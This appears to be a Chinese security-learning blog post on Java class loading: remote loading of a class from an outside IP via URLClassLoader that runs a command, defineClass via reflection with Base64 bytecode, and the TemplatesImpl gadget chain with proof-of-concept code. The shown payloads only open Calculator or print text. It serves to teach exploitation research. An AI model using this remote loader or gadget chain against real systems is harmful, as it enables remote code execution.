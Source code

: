 # [Java]Templatesimpl与字节码


# Java字节码

![image-20221003145149412](https://tuchuang.huamang.xyz/img/image-20221003145149412.png)

# URLClassLoader远程加载

在前面学习classloader的时候就学习到了URLClassLoader，进行远程加载类

比如我在远程服务器写一个这个类

```java
public class Test {
    public static void main(String[] args){
        try{
            Runtime.getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator");
        } 
        catch(Exception e) {
            e.printStackTrace();
        }
    }

}
```

然后在服务端远程加载这个类

```java
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class URLClassLoaderTest {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, InstantiationException, IllegalAccessException {
        URL url = new URL("http://101.35.98.118:12424/javatest/");
        URLClassLoader cl = new URLClassLoader(new URL[]{url});
        Class c = cl.loadClass("Test");
        c.newInstance();
    }
}
```

>正常情况下，Java会根据配置项 sun.boot.class.path 和 java.class.path 中列举到的基础路径（这 些路径是经过处理后的 java.net.URL 类）来寻找.class文件来加载，而这个基础路径有分为三种情况：
>
> URL未以斜杠 / 结尾，则认为是一个JAR文件，使用 JarLoader 来寻找类，即为在Jar包中寻 找.class文件
>
>URL以斜杠 / 结尾，且协议名是 file ，则使用 FileLoader 来寻找类，即为在本地文件系统中寻 找.class文件
>
>URL以斜杠 / 结尾，且协议名不是 file ，则使用最基础的 Loader 来寻找类 
>
>我们正常开发的时候通常遇到的是前两者，那什么时候才会出现使用 Loader 寻找类的情况呢？当然是 非 file 协议的情况下，最常见的就是 http 协议。



# defineClass直接加载

加载字节码，无论是远程还是本地，最后都会到defineClass，p牛这里画了一个图非常直观

![image-20221003150244511](https://tuchuang.huamang.xyz/img/image-20221003150244511.png)

- loadClass 的作用是从已加载的类缓存、父加载器等位置寻找类（这里实际上是双亲委派机 制），在前面没有找到的情况下，执行 findClass 

- findClass 的作用是根据基础URL指定的方式来加载类的字节码，就像上一节中说到的，可能会在 本地文件系统、jar包或远程http服务器上读取字节码，然后交给 defineClass 

- defineClass 的作用是处理前面传入的字节码，将其处理成真正的Java类

他决定了如何将一段字节流转变成一个Java类，Java 默认的 ClassLoader#defineClass 是一个native方法，逻辑在JVM的C语言代码中

但是要注意的是，defineClass调用的时候，**类对象不会被初始化**，所以如果要使用defineClass来加载类的时候，需要想办法**调用构造方法**

这里，因为系统的 ClassLoader#defineClass 是一个保护属性，所以我们无法直接在外部访问，不得不使用**反射**的形式来调用

```java
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.Base64;

public class defineClass {
    public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException, InstantiationException {
        Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass",String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);

        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAGwoABgANCQAOAA8IABAKABEAEgcAEwcAFAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApTb3VyY2VGaWxlAQAKSGVsbG8uamF2YQwABwAIBwAVDAAWABcBAAtIZWxsbyBXb3JsZAcAGAwAGQAaAQAFSGVsbG8BABBqYXZhL2xhbmcvT2JqZWN0AQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3RyZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWACEABQAGAAAAAAABAAEABwAIAAEACQAAAC0AAgABAAAADSq3AAGyAAISA7YABLEAAAABAAoAAAAOAAMAAAACAAQABAAMAAUAAQALAAAAAgAM");
        Class hello = (Class) defineClass.invoke(ClassLoader.getSystemClassLoader(),"Hello",code,0,code.length);
        hello.newInstance();

    }
}


```

![image-20221003154444756](https://tuchuang.huamang.xyz/img/image-20221003154444756.png)



# TemlatesImpl加载字节码

defineClass因为太底层了，一般开发是不会直接使用他的，但是不代表就没有价值了，比如这个TemlatesImpl里面就用到了defineClass，下面来分析这个利用链

在TemplatesImpl里定义了一个TransletClassLoader，这里面最后一行重写了defineClass方法，而且没有声明定义域，那就是默认default，可以在当前类和同包里被利用

![image-20221003161442834](https://tuchuang.huamang.xyz/img/image-20221003161442834.png)

那我们就找TemplatesImpl哪里调用了`TransletClassLoader#defineClass()`，找引用，发现在`TemplatesImpl#defineTransletClasses()`调用了，但是这个作用域是private，所以我们再找一下哪里调用了这个

![image-20221003162153066](https://tuchuang.huamang.xyz/img/image-20221003162153066.png)

继续找引用，找到个getTransletInstance，还是private

![image-20221003162540336](https://tuchuang.huamang.xyz/img/image-20221003162540336.png)

继续找引用，在newTransformer找到唯一的应用，而且newTransFormer是public，可以在外面被调用了

![image-20221003162637511](https://tuchuang.huamang.xyz/img/image-20221003162637511.png)

所以链子就出来了

```java
TemplatesImpl#newTransformer() ->
TemplatesImpl#getTransletInstance() -> 
TemplatesImpl#defineTransletClasses()-> 
TransletClassLoader#defineClass()
```

现在我们来构造POC，看看如何把序列化数据放进去执行defineClass，从后往前看，code作为唯一的传输传入

![image-20221003164319235](https://tuchuang.huamang.xyz/img/image-20221003164319235.png)

往上走，首先是TransletClassLoader对象的创建，这里的第二个参数需要我们传入不然会报错，只需要创建一个对象传进去就行了

```java
private transient TransformerFactoryImpl _tfactory = null;
```

![image-20221003172520085](https://tuchuang.huamang.xyz/img/image-20221003172520085.png)

这里循环传入，数据来源是`_bytecodes[i]`，他是私有成员变量，可以控制

![image-20221003164600033](https://tuchuang.huamang.xyz/img/image-20221003164600033.png)

但是仅有`_bytecode`是不行的，这里我们往上走会发现，这里要进去这个方法还有条件，我们必须保证`_name`不为空，否则就不会进入defineTransletClasses

![image-20221003165638514](https://tuchuang.huamang.xyz/img/image-20221003165638514.png)

所以我们需要为TemplatesImpl设定三个值，由于是私有属性，我们需要用到反射`setAccessible`去设置私有成员变量

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import java.lang.reflect.Field;
import java.util.Base64;

public class TemplatesImplTest {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Base64.getDecoder().decode("yv66vgAAADQAGwoABgANCQAOAA8IABAKABEAEgcAEwcAFAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApTb3VyY2VGaWxlAQAKSGVsbG8uamF2YQwABwAIBwAVDAAWABcBAAtIZWxsbyBXb3JsZAcAGAwAGQAaAQAFSGVsbG8BABBqYXZhL2xhbmcvT2JqZWN0AQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3RyZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWACEABQAGAAAAAAABAAEABwAIAAEACQAAAC0AAgABAAAADSq3AAGyAAISA7YABLEAAAABAAoAAAAOAAMAAAACAAQABAAMAAUAAQALAAAAAgAM");
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_bytecodes",new byte[][]{bytes});
        setFieldValue(templates,"_name","test");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        templates.newTransformer();
    }

    //利用反射给私有变量赋值如下
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
}

```

但是我们拿刚刚defineClass的序列化数据直接跑起来发现，他没有执行命令

原因是TemplatesImpl对加载的字节码是有要求的：这个字节码对应的类必须是 `com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet` 的子类

所以我们需要构造一个继承了`AbstractTranslet`的类，在他的构造方法里去写我们要执行的代码

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class TempClass extends AbstractTranslet {
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    public TempClass(){
        super();
        System.out.println("Hello TemplatesImpl");
    }
}

```

![image-20221003173827012](https://tuchuang.huamang.xyz/img/image-20221003173827012.png)

